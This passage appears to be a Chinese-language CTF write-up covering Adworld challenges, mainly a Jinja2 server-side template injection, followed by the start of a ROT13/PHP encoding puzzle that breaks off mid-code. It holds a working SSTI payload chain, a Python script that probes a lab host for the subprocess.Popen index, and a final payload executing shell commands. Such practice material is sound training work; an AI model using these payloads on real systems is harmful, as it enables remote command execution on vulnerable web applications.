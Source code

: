 ```php


}
$e = new ease();
$e = serialize($e);
echo base64_encode($e);
```

## 攻防世界 Web_python_template_injection

考点是Python jinjia2 的模板注入，一开始找了一下没发现注入点，偷瞄了一下才知道原来是直接在URL后面加

先拿到基类`object`，在查找下面的子类

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

直接使用`Ctrl+f`查找，寻找可利用的模块，最后发现一个可利用的模块：`<class 'subprocess.Popen'>`，这里提供Python代码来寻找

```py
import requests

base_url = "http://61.147.171.105:57186/"
for i in range(500):
    payload = "{{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "]}}"
    res = requests.get(base_url + payload).text
    # print(res)
    if "subprocess" in res:
        print("发现索引：", i, "payload：", payload)

```

最后payload

```
{{''.__class__.__mro__[2].__subclasses__()[237]('cat fl4g',shell=True,stdout=-1).communicate()[0].strip()}}
```

![image-20230902220848461](CTF.assets/image-20230902220848461.png)

## 攻防世界 web2

### 1. 前置知识

ROT13编码：ROT13编码其实就是凯撒密码，偏移量为13；php函数为：`str_rot13()`，编码和解码都是用这个函数！

### 2. 题目源码

```bash
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
```